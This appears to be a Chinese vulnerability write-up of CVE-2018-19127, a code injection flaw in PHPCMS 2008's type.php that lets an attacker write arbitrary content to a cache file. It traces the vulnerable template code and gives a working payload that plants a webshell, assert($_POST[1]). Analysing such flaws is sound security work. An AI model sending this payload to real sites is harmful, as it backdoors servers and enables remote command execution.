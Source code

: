 （CVE-2018-19127）Phpcms2008 Type.php代码注入漏洞
=================================================

一、漏洞简介
------------

PHPCMS
2008存在的代码注入漏洞，导致攻击者可向网站上路径可控的缓存文件写入任意内容，从而可能获取webshell并执行任意指令。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

该漏洞源于PHPCMS 2008源码中的/type.php文件。该文件包含如下代码：

    if(empty($template)) $template = 'type';
    ...
    include template('phpcms', $template);

这里\$template变量是用户能够通过传入参数控制的，同时可以看到该变量之后会被传入template()方法。而template()方法在/include/global.func.php文件中定义，包含如下代码：

    template_compile($module, $template, $istag);

不难看出，这里会继续调用/include/template.func.php中的template\_compile()：

    function template_compile($module, $template, $istag = 0)
    {
        ...
        $compiledtplfile = TPL_CACHEPATH.$module.'_'.$template.'.tpl.php';
        $content = ($istag || substr($template, 0, 4) == 'tag_') ? '<?php function _tag_'.$module.'_'.$template.'($data, $number, $rows, $count, $page, $pages, $setting){ global $PHPCMS,$MODULE,$M,$CATEGORY,$TYPE,$AREA,$GROUP,$MODEL,$templateid,$_userid,$_username;@extract($setting);?>'.template_parse($content, 1).'<?php } ?>' : template_parse($content);
        $strlen = file_put_contents($compiledtplfile, $content);
        ...
    }
    `

在这个方法中，\$template变量同时被用于\$compiledtplfile中文件路径的生成，和\$content中文件内容的生成。

而前文所述的攻击payload将\$template变量被设置为如下的值

    tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss

所以在template\_compile()方法中，调用file\_put\_contents()函数时的第一个参数就被写成了`data/cache_template/phpcms_tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss.tpl.php`，这将被php解析成\"data/cache\_template/rss.tpl.php\"。最终，`@unlink(_FILE_);assert($_POST[1]);`将被写入该文件。

### 漏洞复现

当攻击者向安装有PHPCMS 2008的网站发送uri为如下文本的payload

    https://www.0-sec.org/type.php?template=tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss

那么`@unlink(_FILE_);assert($_POST[1]);`这句恶意php指令将被写入网站的/cache\_template/rss.tpl.php文件。
